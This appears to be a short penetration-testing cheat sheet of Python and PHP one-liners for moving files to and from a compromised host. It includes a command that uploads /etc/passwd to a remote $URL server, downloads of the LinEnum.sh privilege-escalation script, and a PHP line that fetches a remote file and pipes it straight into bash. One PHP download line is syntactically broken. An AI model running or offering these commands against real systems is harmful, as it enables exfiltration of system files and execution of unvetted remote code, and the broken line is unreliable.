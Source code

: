 ---------------
# PYTHON
--------------
- Python3 -Download
```bash
python3 -c 'import urllib.request; urllib.request.urlretrieve($URL, $FILE)'
```
- Python3 - Upload
```bash
# Start the server
python3 -m uploadserver
# Upload the file
python3 -c 'import requests;requests.post($URL/upload, files={"files":open("/etc/passwd","rb")})'

```

-------------------------
# PHP
---------------------
```bash
php -r '$file = file_get_contents($URL); file_output_contents=("linEnum.sh",$file)'
```
- Download with Fopen()
```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen($URL, "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
- PHP Download a File and Pipe it to Bash
```bash
php -r '$lines = @file($URL); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```